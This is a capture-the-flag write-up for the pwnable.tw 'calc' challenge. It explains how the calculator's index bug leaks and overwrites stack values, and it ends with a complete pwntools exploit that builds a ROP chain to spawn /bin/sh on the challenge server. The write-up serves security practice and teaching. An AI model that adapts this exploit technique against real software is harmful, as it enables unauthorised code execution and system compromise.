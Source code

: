 # Calc
> LongChampion, 26/03/2020

## Hint
I can't solve this problem by myself, I have read some write-up for hint.  
I think you should read the following hints, then return to solve problem by yourself.
- enter `+360` will give you the value of `[$ebp]` (the value on the stack pointed to by `$ebp`).
- enter `+361+1` will increase the return address of function `calc` by 1.

In other word, you can leak and change any value on the stack by using the method above!

## Ideal
I use the hint and ROP technique to solve this problem.
Find all nessesary gadgets is too easy with [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).
The biggest problem you may stuck in is how to get the address of string "/bin/sh":
* These is no string "/bin/sh" in the binary, so the only solution is write it on the stack.
* But, if you do this, you can't know the exact address of string "/bin/sh" on the stack.

After some Google-fu, I see the magic here: I can calculate `$ebp` of function `calc`.  
First, enter `+360` to get `[$ebp]`, this is the address of `$ebp` of function `main` on the stack.  
What is the relationship between `$ebp` and `[$ebp]`, look at the assembly:
```
08049452 <main>:
 8049452:	55                   	push   %ebp                            <-- save old $ebp on the stack
 8049453:	89 e5                	mov    %esp,%ebp                       <-- now $ebp = $esp
 8049455:	83 e4 f0             	and    $0xfffffff0,%esp
 8049458:	83 ec 10             	sub    $0x10,%esp
 804945b:	c7 44 24 04 34 94 04 	movl   $0x8049434,0x4(%esp)
 8049462:	08 
 8049463:	c7 04 24 0e 00 00 00 	movl   $0xe,(%esp)
 804946a:	e8 61 4e 00 00       	call   804e2d0 <__bsd_signal>
 804946f:	c7 04 24 3c 00 00 00 	movl   $0x3c,(%esp)
 8049476:	e8 f5 48 02 00       	call   806dd70 <alarm>
 804947b:	c7 04 24 1c f8 0b 08 	movl   $0x80bf81c,(%esp)
 8049482:	e8 39 70 00 00       	call   80504c0 <_IO_puts>
 8049487:	a1 c0 c4 0e 08       	mov    0x80ec4c0,%eax
 804948c:	89 04 24             	mov    %eax,(%esp)
 804948f:	e8 ec 6d 00 00       	call   8050280 <_IO_fflush>
 8049494:	e8 e0 fe ff ff       	call   8049379 <calc>                  <-- $ebp remain unchanged until here
```

In function `calc`:
```
08049379 <calc>:
 8049379:	55                   	push   %ebp                            <-- save $ebp on the stack, we can read this value
                                                                                   by send '+360' to the program!
 804937a:	89 e5                	mov    %esp,%ebp
```
Now, you know that you can have an address of one place on stack. If you are clever enough, you also know that can calculate the `$ebp` of `calc` by subtract the offset from `[$ebp]`. How to find the offset? Many ways available, but I use GDB for this mission. I found that the offset is 32.  
So `$ebp = [$ebp] - 32`. Have `$ebp`, you can calculate the base address of an array and many thing other.

## Final Solution
```python
#!/usr/bin/env python2

from pwn import *

r = remote("chall.pwnable.tw", 10100)
r.recvline()


def Get(i):
    r.sendline("+" + str(i))
    res = int(r.recvline())
    if res < 0:
        res += 0x100000000
    return res


def Set(i, v):
    old = Get(i)
    print "[%d] =" % i, old
    print "Target =", v

    diff = v - old
    if abs(diff) <= 0x7FFFFFFF:
        if diff < 0:
            r.sendline("+" + str(i) + "-" + str(-diff))
        else:
            r.sendline("+" + str(i) + "+" + str(diff))
    else:
        if diff < 0:
            diff += 0x100000000
            r.sendline("+" + str(i) + "+" + str(diff))
        else:
            diff = 0x100000000 - diff
            r.sendline("+" + str(i) + "-" + str(diff))

    new = int(r.recvline())
    if new < 0:
        new += 0x100000000

    if new == v:
        print "Status: OK!\n"
    else:
        print "Status: Error!\n"


prev_ebp = Get(360)
cur_ebp = prev_ebp - 32         # You need GDB to check this
ARR_BASE = cur_ebp - 4 * 360

bin_hex = u32("/bin")
sh_hex = u32("/sh\x00")
pop_eax = 0x0805c34b
pop_edx = 0x080701aa
pop_ecx_ebx = 0x080701d1
pop_int0x80 = 0x08049a21

# We will call execve("/bin/sh", NULL, NULL) by ROP
PAYLOAD = [pop_eax, 0xb, pop_edx, 0, pop_ecx_ebx,
           0, ARR_BASE + 369 * 4, pop_int0x80, bin_hex, sh_hex]

for i in range(len(PAYLOAD)):
    Set(361 + i, PAYLOAD[i])

r.sendline("Attack!")
r.interactive()
```
